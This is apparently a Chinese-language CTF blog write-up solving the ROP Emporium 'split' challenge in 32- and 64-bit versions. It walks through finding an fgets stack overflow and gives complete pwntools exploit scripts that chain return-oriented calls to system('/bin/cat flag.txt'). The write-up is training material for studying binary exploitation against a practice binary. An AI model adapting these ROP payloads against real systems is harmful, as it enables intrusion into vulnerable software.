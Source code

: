 ```yaml
---
title: ROP Emporium の split
date: 2020-05-27 13:30:29
categories:
- WriteUPs
- ROP Emprium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

[ROP Emporium](https://ropemporium.com)训练1：split的解析。

<!-- more -->

## split32

### Step 1

程序正常运行截图：

![](/img/split/split1.png)

checksec：32位程序，只开启了DEP保护

![](/img/split/split2.png)

### Step 2

把程序丢到hopper中看下，发现在pwnme函数中fgets函数存在溢出漏洞：

![](/img/split/split3.png)

同时程序中存在system函数，可以执行系统命令：

![](/img/split/split4.png)

再找下程序中有没有’/bin/sh’字符串：

![](/img/split/split5.png)

可惜，没有找到。不过在hopper中看到一个有趣的字符串“/bin/ls”：

![](/img/split/split6.png)

有这个也无法看到flag，那么再去找一下“flag.txt”字符串：

![](/img/split/split7.png)

Surprise！！！居然有“/bin/cat flag.txt”字符串。到此思路就清晰了，fgets函数溢出覆盖返回地址跳转到system执行“/bin/cat flag.txt”的命令即可。

### Step 3

话不多说，直接上EXP：

```Python
* from pwn import *
* sh = process('./split32')
* elf = ELF('./split32')
* 
* system_addr = elf.symbols['system']
* shell_addr = elf.search('/bin/cat').next()
* 
* payload = 'a' * (0x28 + 0x4) + p32(system_addr) + p32(0xdeadbeef) + p32(shell_addr)
* 
* sh.recvuntil('>')
* sh.send(payload)
* 
* sh.interactive()
* sh.close()
```

代码运行结果：

![](/img/split/split8.png)

## split

### Step 1

程序运行截图：

![](/img/split/split9.png)

checksec还是一样的仅开启DEP保护，只是程序变成了64位：

![](/img/split/split10.png)

### Step 2

将程序丢到hopper中发现解题的逻辑和split32一模一样，fgets函数溢出覆盖返回地址到system函数，执行“/bin/cat flag.txt”命令.

与32位程序不同的有两点：

* 一是偏移量不同，这点简单明了

* 二是32位和64位程序传参方式的不同，具体可以参考[XMAN level2_x64 の Write-Up](https://coldwave96.github.io/2020/05/11/XMAN-level2-x64/)

### Step 3

比较简单，还是直接给出EXP：

```Python
* from pwn import *
* 
* sh = process('./split')
* elf = ELF('./split')
* 
* system_addr = elf.symbols['system']
* rop_addr = 0x0000000000400883
* shell_addr = elf.search('/bin/cat').next()
* 
* payload = 'a' * (0x20 + 0x8) + p64(rop_addr) + p64(shell_addr) + p64(system_addr)
* 
* sh.recvuntil('>')
* sh.send(payload)
* 
* sh.interactive()
* sh.close()
```

其中rop_addr是通过`ROPgadget --binary ./split --only 'pop|ret’`命令找到的：

![](/img/split/split11.png)

EXP脚本运行结果图：

![](/img/split/split12.png)